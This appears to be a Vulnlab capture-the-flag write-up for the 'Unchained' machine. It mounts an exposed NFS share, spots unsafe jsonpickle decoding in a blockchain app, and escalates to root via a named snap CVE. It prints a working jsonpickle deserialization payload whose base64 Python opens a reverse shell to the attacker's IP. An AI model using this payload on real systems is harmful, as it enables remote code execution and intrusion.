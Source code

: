 ```yaml
---
title: "Vulnlab - Unchained [Medium]"
publishedAt: 2023-08-20
description: "Vulnlab Writeup"
isPublish: true
---
```


We can first mount the exposed NFS folder called `backup` to local folder called `mounted`.

```
sudo mount -t nfs -o nfsvers=3 10.10.89.250:/var/nfs/backup ./mounted -o nolock
```

We can see the source code is a project that is a result from this course:
- [https://www.udemy.com/course/build-your-own-proof-of-stake-blockchain](https://www.udemy.com/course/build-your-own-proof-of-stake-blockchain)

Upon reviewing the code that we got from the mount, we can see that the `/transaction` path that tries to `decode` the value of the `transaction`


<img src="/images/Pasted image 20240229101409.png">

Then it goes into the `BlockchainUtils.decode` which has the following code:

<img src="/images/Pasted image 20240229101422.png">

It is notable that the `jsonpickle` direct decoding can be vulnerable to deserialization, so I've crafted the following payload:

```
{
"transaction": "{\"py\/object\": \"__main__.Transaction\", \"syl\": {\"py\/reduce\": [{\"py\/type\": \"subprocess.Popen\"}, {\"py\/tuple\": [{\"py\/tuple\": [\"python3\", \"-c\", \"import base64;exec(base64.b64decode('aW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEwLjguMC4xMDciLDQ0NDQpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7IG9zLmR1cDIocy5maWxlbm8oKSwxKTtvcy5kdXAyKHMuZmlsZW5vKCksMik7aW1wb3J0IHB0eTsgcHR5LnNwYXduKCJiYXNoIik='))\"]}]}]}}"
}
```

I did this payload from scratch, but I found an article that has much more efficient payload here:
- [https://medium.com/@0xbughunter/de-serialization-sometimes-pickle-can-be-too-sour-45c930e18b8e](https://medium.com/@0xbughunter/de-serialization-sometimes-pickle-can-be-too-sour-45c930e18b8e)

Nonetheless we can see that we got a connection back.

<img src="/images/Pasted image 20240229165506.png">

After that and after a bit of enumeration we can see that `snap` is in the user folder which kind-a hints that. The vulnerability is `CVE-2021-44731`, we can find a PoC on GitHub, after that we are `root`.